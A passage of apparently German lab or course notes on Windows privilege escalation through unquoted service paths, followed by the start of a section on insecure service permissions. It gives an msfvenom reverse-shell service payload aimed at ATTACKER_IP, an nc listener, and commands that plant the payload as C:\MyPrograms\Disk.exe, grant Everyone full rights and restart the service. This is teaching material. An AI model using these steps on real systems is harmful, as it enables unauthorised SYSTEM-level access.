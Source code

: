 Anhand dieses Verhaltens wird das Problem deutlich. Wenn ein Angreifer eine der ausführbaren Dateien erstellt, nach denen vor der erwarteten ausführbaren Datei des Dienstes gesucht wird, kann er den Dienst zwingen, eine beliebige ausführbare Datei auszuführen.
Das hört sich zwar trivial an, aber die meisten ausführbaren Dateien der Dienste werden standardmäßig unter C:\Programme oder C:\Programme (x86) installiert, die für unberechtigte Benutzer nicht beschreibbar sind. Dadurch wird verhindert, dass ein anfälliger Dienst ausgenutzt werden kann. Es gibt Ausnahmen von dieser Regel: - Einige Installationsprogramme ändern die Berechtigungen für die installierten Ordner, wodurch die Dienste angreifbar werden. - Ein Administrator könnte beschließen, die Dienst-Binärdateien in einem nicht standardmäßigen Pfad zu installieren. Wenn ein solcher Pfad weltweit beschreibbar ist, kann die Sicherheitslücke ausgenutzt werden.

In unserem Fall Beispiel installierte der Administrator die Disk Sorter-Binärdateien unter c:\MyPrograms. Standardmäßig erbt dieses Verzeichnis die Berechtigungen des Verzeichnisses C:\, so dass jeder Benutzer darin Dateien und Ordner erstellen kann. Wir können dies mit icacls überprüfen:
```
icals c:\MyPrograms
```
https://i.imgur.com/EcvTtsf.png

Die Gruppe BUILTIN\\Users hat AD- und WD-Rechte, so dass der Benutzer Unterverzeichnisse bzw. Dateien erstellen kann.
Der Prozess der Erstellung eines Exe-Dienst-Payloads mit msfvenom und dessen Übertragung auf den Zielhost ist derselbe wie zuvor, daher können wir folgende Payload erstellen und sie wie zuvor auf den Server hochladen. Wir werden auch einen Listener starten, um die Reverse Shell zu empfangen, wenn sie ausgeführt wird:

```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe 
# Erstellen der Payload

#Starten des Listeners
user@attackerpc$ nc -lvp 4446
```
  
Sobald sich die Payload auf dem Server befindet, verschiebt man sie an einen der Orte, an denen ein Hijacking stattfinden könnte. In diesem Fall verschieben wir unseren Payload nach C:\MyPrograms\Disk.exe. Wir gewähren außerdem allen Benutzern volle Rechte für die Datei, um sicherzustellen, dass sie vom Dienst ausgeführt werden kann:
```
#Verschieben und Umbenennen
move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

# allen rechte auf die Datei geben
icacls C:\MyPrograms\Disk.exe /grant Everyone:F

#Stoppen und Starten des Dienstes am besten via CMD
sc stop "disk sorter enterprise" 
sc start "disk sorter enterprise"
```


### Insecure Service Permissions
Unter Umständen haben Sie noch eine kleine Chance, einen Dienst zu nutzen, wenn die ausführbare DACL (Discretionary Access Control Lists) des Dienstes gut konfiguriert ist und der Binärpfad des Dienstes richtig angegeben ist. Sollte die DACL des Dienstes (nicht die ausführbare DACL des Dienstes) es Ihnen erlauben, die Konfiguration eines Dienstes zu ändern, können Sie den Dienst neu konfigurieren. Dadurch können Sie auf jede beliebige ausführbare Datei verweisen und sie mit jedem beliebigen Konto ausführen, einschließlich SYSTEM selbst.

